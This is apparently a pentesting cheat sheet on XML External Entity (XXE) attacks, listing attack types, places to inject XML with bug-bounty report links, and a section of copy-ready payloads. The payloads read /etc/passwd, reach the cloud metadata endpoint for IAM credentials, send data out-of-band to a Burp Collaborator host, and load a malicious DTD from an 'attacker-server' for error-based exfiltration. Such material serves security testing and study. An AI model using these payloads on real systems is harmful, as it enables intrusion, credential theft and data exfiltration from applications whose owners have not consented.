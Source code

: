# XML External Enteties (XXE)

There are various types of XXE attacks: 
- Exploiting XXE to retrieve files, where an external entity is defined containing the contents of a file, and returned in the application's response.
- Exploiting XXE to perform SSRF attacks, where an external entity is defined based on a URL to a back-end system.
- Exploiting blind XXE exfiltrate data out-of-band, where sensitive data is transmitted from the application server to a system that the attacker controls.
- Exploiting blind XXE to retrieve data via error messages, where the attacker can trigger a parsing error message containing sensitive data.


### Places to try to submit XML

- [ ] Submit XML requests where json is.
 - https://blog.netspi.com/playing-content-type-xxe-json-endpoints/
 - https://hackerone.com/reports/106797
- [ ] Change GET to POST and submit xml.
- https://hackerone.com/reports/154096
- [ ] Via SAML assertions.
- https://seanmelia.files.wordpress.com/2016/01/out-of-band-xml-external-entity-injection-via-saml-redacted.pdf & https://httpsonly.blogspot.se/2017/01/0day-writeup-xxe-in-ubercom.html
- [ ] In SOAP requests
- https://hackerone.com/reports/36450
- [ ] In SVG files.
 - http://esoln.net/Research/2017/03/30/xxe-in-lithium-community-platform/
- [ ] In PDF files
- [ ] In MS Office files, word, excel, ppt files. 
- https://hackerone.com/reports/105434
- https://hackerone.com/reports/334488
- [ ] Logins over xml
- https://hackerone.com/reports/105753
- https://hackerone.com/reports/105980

## Payloads

**Exploiting XXE to retrieve files, where an external entity is defined containing the contents of a file, and returned in the application's response.**
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><stockCheck><productId>1&xxe;</productId><storeId>1</storeId></stockCheck>
```

**Exploiting XXE to perform SSRF attacks, where an external entity is defined based on a URL to a back-end system.**
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/">
]><stockCheck><productId>2&xxe;</productId><storeId>1</storeId></stockCheck>
```

**Exploiting blind XXE exfiltrate data out-of-band, where sensitive data is transmitted from the application server to a system that the attacker controls.**
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://devpey9157asm7owheb6tcwh58byzn.burpcollaborator.net">
]><stockCheck><productId>2&xxe;</productId><storeId>1</storeId></stockCheck>
```

**Exploiting blind XXE to retrieve data via error messages, where the attacker can trigger a parsing error message containing sensitive data.**

Host the following malicious dtd on the attack server:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error; 
```

Invoke the malicious dtd:

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://attacker-server"> %xxe;]><stockCheck><productId>2</productId><storeId>1</storeId></stockCheck>
```

